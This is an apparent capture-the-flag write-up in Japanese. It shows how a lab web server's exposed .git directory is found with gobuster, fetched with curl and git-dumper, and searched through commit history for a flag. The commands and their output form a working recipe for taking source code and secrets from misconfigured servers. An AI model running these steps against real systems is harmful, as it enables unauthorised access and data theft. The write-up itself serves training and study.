


### 使用OS：Kali

1.アクセスできるファイルを列挙
```bash
export URL=10.0.1.53
```
```bash
gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -x html,txt,php
```


アクセスしたファイルからこれをダウンロードできた


2.各ファイルにアクセスして一応中身を確かめる
```
┌──(kali㉿kali)-[~]
└─$ curl -i $URL/.git/objects/info/packs

HTTP/1.1 404 Not Found
Server: nginx/1.25.3
Date: Thu, 18 Dec 2025 05:38:12 GMT
Content-Type: text/html
Content-Length: 153
Connection: keep-alive

<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.25.3</center>
</body>
</html>
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ curl -i $URL/.git/packed-refs

HTTP/1.1 404 Not Found
Server: nginx/1.25.3
Date: Thu, 18 Dec 2025 05:38:19 GMT
Content-Type: text/html
Content-Length: 153
Connection: keep-alive

<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.25.3</center>
</body>
</html>
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ curl -i $URL/.git/refs/heads/main

HTTP/1.1 200 OK
Server: nginx/1.25.3
Date: Thu, 18 Dec 2025 05:38:27 GMT
Content-Type: application/octet-stream
Content-Length: 41
Last-Modified: Tue, 01 Jul 2025 01:39:00 GMT
Connection: keep-alive
ETag: "68633c34-29"
Accept-Ranges: bytes

eac9b11310f893de320c4b335306fecba1e74323
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ curl -i $URL/.git/config

HTTP/1.1 200 OK
Server: nginx/1.25.3
Date: Thu, 18 Dec 2025 05:38:42 GMT
Content-Type: application/octet-stream
Content-Length: 195
Last-Modified: Tue, 01 Jul 2025 01:39:00 GMT
Connection: keep-alive
ETag: "68633c34-c3"
Accept-Ranges: bytes

[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
        ignorecase = true
        precomposeunicode = true
[user]
        email = kumakawa@goodmorinig.net
        name = Kumakawa
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ curl -i $URL/.git/objects/info/packs
HTTP/1.1 404 Not Found
Server: nginx/1.25.3
Date: Thu, 18 Dec 2025 05:39:42 GMT
Content-Type: text/html
Content-Length: 153
Connection: keep-alive

<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.25.3</center>
</body>
</html>
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ curl -I $URL/.git/index
curl -I $URL/.git/logs/HEAD
curl -I $URL/.git/COMMIT_EDITMSG

HTTP/1.1 200 OK
Server: nginx/1.25.3
Date: Thu, 18 Dec 2025 05:40:10 GMT
Content-Type: application/octet-stream
Content-Length: 145
Last-Modified: Tue, 01 Jul 2025 01:39:00 GMT
Connection: keep-alive
ETag: "68633c34-91"
Accept-Ranges: bytes

HTTP/1.1 200 OK
Server: nginx/1.25.3
Date: Thu, 18 Dec 2025 05:40:10 GMT
Content-Type: application/octet-stream
Content-Length: 452
Last-Modified: Tue, 01 Jul 2025 01:39:00 GMT
Connection: keep-alive
ETag: "68633c34-1c4"
Accept-Ranges: bytes

HTTP/1.1 200 OK
Server: nginx/1.25.3
Date: Thu, 18 Dec 2025 05:40:10 GMT
Content-Type: application/octet-stream
Content-Length: 4
Last-Modified: Tue, 01 Jul 2025 01:39:00 GMT
Connection: keep-alive
ETag: "68633c34-4"
Accept-Ranges: bytes
```
```bash
curl -s $URL/.git/index -o git_index
curl -s $URL/.git/logs/HEAD -o git_logs_HEAD
curl -s $URL/.git/COMMIT_EDITMSG -o git_commitmsg

echo "==COMMIT_EDITMSG=="; xxd -g 1 git_commitmsg
echo "==logs/HEAD=="; cat git_logs_HEAD

#
==COMMIT_EDITMSG==
00000000: 33 72 64 0a                                      3rd.
==logs/HEAD==
0000000000000000000000000000000000000000 f8f138356a2be5e5f4a1b210a248ab685da76d28 Kumakawa <kumakawa@goodmorinig.net> 1716008870 +0800   commit (initial): test
f8f138356a2be5e5f4a1b210a248ab685da76d28 0d7fe0d93c1d24e9fb89557d481d987984dbc3c3 Kumakawa <kumakawa@goodmorinig.net> 1716008922 +0800   commit: 2nd
0d7fe0d93c1d24e9fb89557d481d987984dbc3c3 eac9b11310f893de320c4b335306fecba1e74323 Kumakawa <kumakawa@goodmorinig.net> 1716008932 +0800   commit: 3rd
````
- ここの３つのハッシュの文頭を最後に使うからおぼえとく（f8f1383、0d7fe0d、eac9b11）
- 

3.ほかのもしっかり見とく
```
┌──(kali㉿kali)-[~]
└─$ curl -i $URL/.git/objects/info/packs
HTTP/1.1 404 Not Found
Server: nginx/1.25.3
Date: Thu, 18 Dec 2025 05:42:03 GMT
Content-Type: text/html
Content-Length: 153
Connection: keep-alive

<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.25.3</center>
</body>
</html>
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ strings -a git_index | head -n 80
strings -a git_index | grep -Ei 'flag|ctf|gbi|secret|pass|key|readme' | head -n 50

DIRC
index.html
TREE
Qo]V@
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ curl -s $URL/index.html

<html>
test
<h1>
</h1>
<html>                                                                                                        
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/arthaud/git-dumper.git
python3 git-dumper/git_dumper.py $URL/.git/ dumped_repo
cd dumped_repo
git log --oneline --all

Cloning into 'git-dumper'...
remote: Enumerating objects: 204, done.
remote: Counting objects: 100% (104/104), done.
remote: Compressing objects: 100% (46/46), done.
remote: Total 204 (delta 69), reused 60 (delta 58), pack-reused 100 (from 2)
Receiving objects: 100% (204/204), 66.14 KiB | 7.35 MiB/s, done.
Resolving deltas: 100% (106/106), done.
Traceback (most recent call last):
  File "/home/kali/git-dumper/git_dumper.py", line 17, in <module>
    import dulwich.index
ModuleNotFoundError: No module named 'dulwich'
cd: そのようなファイルやディレクトリはありません: dumped_repo
fatal: not a git repository (or any of the parent directories): .git

※gitからgit-dumperコマンドをインストール。失敗したから詳細はOMAKEWEB300.mdみてね
```

4.公開されてしまっている .git ディレクトリからリポジトリの中身を丸ごと復元する
```bash
python3 git-dumper/git_dumper.py $URL/.git/ dumped_repo
```
```
# 結果
[-] Testing http://10.0.1.53/.git/HEAD [200]
[-] Testing http://10.0.1.53/.git/ [403]
[-] Fetching common files
[-] Fetching http://10.0.1.53/.gitignore [404]
[-] http://10.0.1.53/.gitignore responded with status code 404
[-] Fetching http://10.0.1.53/.git/COMMIT_EDITMSG [200]
[-] Fetching http://10.0.1.53/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://10.0.1.53/.git/hooks/post-commit.sample [404]
[-] http://10.0.1.53/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://10.0.1.53/.git/hooks/commit-msg.sample [200]
[-] Fetching http://10.0.1.53/.git/description [200]
[-] Fetching http://10.0.1.53/.git/hooks/pre-commit.sample [200]
[-] Fetching http://10.0.1.53/.git/hooks/post-receive.sample [404]
[-] http://10.0.1.53/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://10.0.1.53/.git/hooks/post-update.sample [200]
[-] Fetching http://10.0.1.53/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://10.0.1.53/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://10.0.1.53/.git/hooks/pre-receive.sample [200]
[-] Fetching http://10.0.1.53/.git/hooks/update.sample [200]
[-] Fetching http://10.0.1.53/.git/index [200]
[-] Fetching http://10.0.1.53/.git/info/exclude [200]
[-] Fetching http://10.0.1.53/.git/hooks/pre-push.sample [200]
[-] Fetching http://10.0.1.53/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://10.0.1.53/.git/objects/info/packs [404]
[-] http://10.0.1.53/.git/objects/info/packs responded with status code 404
[-] Finding refs/
[-] Fetching http://10.0.1.53/.git/logs/refs/heads/main [200]
[-] Fetching http://10.0.1.53/.git/ORIG_HEAD [404]
[-] Fetching http://10.0.1.53/.git/FETCH_HEAD [404]
[-] http://10.0.1.53/.git/ORIG_HEAD responded with status code 404
[-] Fetching http://10.0.1.53/.git/info/refs [404]
[-] http://10.0.1.53/.git/FETCH_HEAD responded with status code 404
[-] http://10.0.1.53/.git/info/refs responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/HEAD [200]
[-] Fetching http://10.0.1.53/.git/config [200]
[-] Fetching http://10.0.1.53/.git/HEAD [200]
[-] Fetching http://10.0.1.53/.git/logs/refs/heads/master [404]
[-] http://10.0.1.53/.git/logs/refs/heads/master responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/refs/remotes/origin/main [404]
[-] http://10.0.1.53/.git/logs/refs/remotes/origin/main responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/refs/remotes/origin/HEAD [404]
[-] http://10.0.1.53/.git/logs/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/refs/heads/development [404]
[-] http://10.0.1.53/.git/logs/refs/heads/development responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/refs/heads/production [404]
[-] http://10.0.1.53/.git/logs/refs/heads/production responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/refs/heads/staging [404]
[-] http://10.0.1.53/.git/logs/refs/heads/staging responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/refs/remotes/origin/master [404]
[-] http://10.0.1.53/.git/logs/refs/remotes/origin/master responded with status code 404
[-] Fetching http://10.0.1.53/.git/packed-refs [404]
[-] Fetching http://10.0.1.53/.git/logs/refs/remotes/origin/staging [404]
[-] http://10.0.1.53/.git/packed-refs responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/refs/stash [404]
[-] http://10.0.1.53/.git/logs/refs/remotes/origin/staging responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/refs/remotes/origin/development [404]
[-] http://10.0.1.53/.git/logs/refs/remotes/origin/development responded with status code 404
[-] Fetching http://10.0.1.53/.git/logs/refs/remotes/origin/production [404]
[-] http://10.0.1.53/.git/logs/refs/stash responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/heads/master [404]
[-] http://10.0.1.53/.git/refs/heads/master responded with status code 404
[-] http://10.0.1.53/.git/logs/refs/remotes/origin/production responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/heads/staging [404]
[-] http://10.0.1.53/.git/refs/heads/staging responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/heads/main [200]
[-] Fetching http://10.0.1.53/.git/refs/heads/development [404]
[-] http://10.0.1.53/.git/refs/heads/development responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/heads/production [404]
[-] http://10.0.1.53/.git/refs/heads/production responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/remotes/origin/HEAD [404]
[-] Fetching http://10.0.1.53/.git/refs/remotes/origin/main [404]
[-] http://10.0.1.53/.git/refs/remotes/origin/main responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/remotes/origin/production [404]
[-] Fetching http://10.0.1.53/.git/refs/remotes/origin/development [404]
[-] http://10.0.1.53/.git/refs/remotes/origin/production responded with status code 404
[-] http://10.0.1.53/.git/refs/remotes/origin/development responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/remotes/origin/staging [404]
[-] http://10.0.1.53/.git/refs/remotes/origin/staging responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/remotes/origin/master [404]
[-] http://10.0.1.53/.git/refs/remotes/origin/master responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/stash [404]
[-] http://10.0.1.53/.git/refs/stash responded with status code 404
[-] http://10.0.1.53/.git/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/wip/wtree/refs/heads/main [404]
[-] http://10.0.1.53/.git/refs/wip/wtree/refs/heads/main responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/wip/wtree/refs/heads/master [404]
[-] http://10.0.1.53/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/wip/wtree/refs/heads/staging [404]
[-] http://10.0.1.53/.git/refs/wip/wtree/refs/heads/staging responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/wip/wtree/refs/heads/production [404]
[-] Fetching http://10.0.1.53/.git/refs/wip/index/refs/heads/main [404]
[-] http://10.0.1.53/.git/refs/wip/index/refs/heads/main responded with status code 404
[-] http://10.0.1.53/.git/refs/wip/wtree/refs/heads/production responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/wip/index/refs/heads/development [404]
[-] Fetching http://10.0.1.53/.git/refs/wip/index/refs/heads/master [404]
[-] http://10.0.1.53/.git/refs/wip/index/refs/heads/development responded with status code 404
[-] http://10.0.1.53/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/wip/wtree/refs/heads/development [404]
[-] http://10.0.1.53/.git/refs/wip/wtree/refs/heads/development responded with status code 404
[-] Fetching http://10.0.1.53/.git/refs/wip/index/refs/heads/staging [404]
[-] Fetching http://10.0.1.53/.git/refs/wip/index/refs/heads/production [404]
[-] http://10.0.1.53/.git/refs/wip/index/refs/heads/staging responded with status code 404
[-] http://10.0.1.53/.git/refs/wip/index/refs/heads/production responded with status code 404
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching http://10.0.1.53/.git/objects/0d/7fe0d93c1d24e9fb89557d481d987984dbc3c3 [200]
[-] Fetching http://10.0.1.53/.git/objects/f0/ca40aa52a8f65027a9f9280b810a7021839cf6 [200]
[-] Fetching http://10.0.1.53/.git/objects/ea/c9b11310f893de320c4b335306fecba1e74323 [200]
[-] Fetching http://10.0.1.53/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] http://10.0.1.53/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching http://10.0.1.53/.git/objects/f8/f138356a2be5e5f4a1b210a248ab685da76d28 [200]
[-] Fetching http://10.0.1.53/.git/objects/f4/929583c826687dcf1ac5f3cc21eb2d5391a151 [200]
[-] Fetching http://10.0.1.53/.git/objects/cd/75677ab11fdadcaa856c78a41a601e52c7529a [200]
[-] Fetching http://10.0.1.53/.git/objects/17/b0d6f97dc28a65ba20ff8ae5e119fa4a8e345a [200]
[-] Fetching http://10.0.1.53/.git/objects/fc/74af18085ec2a831b50da65c6faa56e8c88262 [200]
[-] Fetching http://10.0.1.53/.git/objects/97/18450aa207c95c2453415f7c062c4e4b1e48f4 [200]
[-] Running git checkout .
```
- 内部ファイルがみえるものがいくつかある（２００）　404は正常※侵入側からすると

4.gitの中身を見るために必要な情報をあぶりだす
```bash
cd dumped_repo
git status
git log --oneline --all
ls -la
```
```
#　結果
On branch main
nothing to commit, working tree clean
eac9b11 (HEAD -> main) 3rd
0d7fe0d 2nd
f8f1383 test

※２．でたハッシュ値の文頭と一致するものを出力（f8f1383、0d7fe0d、eac9b11）

合計 16
drwxrwxr-x  3 kali kali 4096 12月 18 00:49 .
drwx------ 27 kali kali 4096 12月 18 00:49 ..
drwxrwxr-x  7 kali kali 4096 12月 18 00:50 .git
-rw-rw-r--  1 kali kali   30 12月 18 00:49 index.html
```

index.htmlの中身を見ておく
```
cat index.html

# 結果
<html>
test
<h1>
</h1>
<html>
```
5.さっきでた（f8f1383、0d7fe0d、eac9b11）をgitコマンドで出力(３ついっきに)
```bash
git show f8f1383
git show 0d7fe0d
git show eac9b11
```

```
# 結果
commit f8f138356a2be5e5f4a1b210a248ab685da76d28
Author: Kumakawa <kumakawa@goodmorinig.net>
Date:   Sat May 18 13:07:50 2024 +0800

    test

diff --git a/index.html b/index.html
new file mode 100644
index 0000000..9718450
--- /dev/null
+++ b/index.html
@@ -0,0 +1,3 @@
+<html>
+test
+<html>
commit 0d7fe0d93c1d24e9fb89557d481d987984dbc3c3
Author: Kumakawa <kumakawa@goodmorinig.net>
Date:   Sat May 18 13:08:42 2024 +0800

    2nd

diff --git a/index.html b/index.html
index 9718450..fc74af1 100644
--- a/index.html
+++ b/index.html
@@ -1,3 +1,6 @@
 <html>
 test
+<h1>
+Flag: GBI{HelloIamHere}
+</h1>
 <html>
commit eac9b11310f893de320c4b335306fecba1e74323 (HEAD -> main)
Author: Kumakawa <kumakawa@goodmorinig.net>
Date:   Sat May 18 13:08:52 2024 +0800

    3rd

diff --git a/index.html b/index.html
index fc74af1..f0ca40a 100644
--- a/index.html
+++ b/index.html
@@ -1,6 +1,5 @@
 <html>
 test
 <h1>
-Flag: GBI{HelloIamHere}
 </h1>
 <html>
```

フラグ発見

### GBI{HelloIamHere}
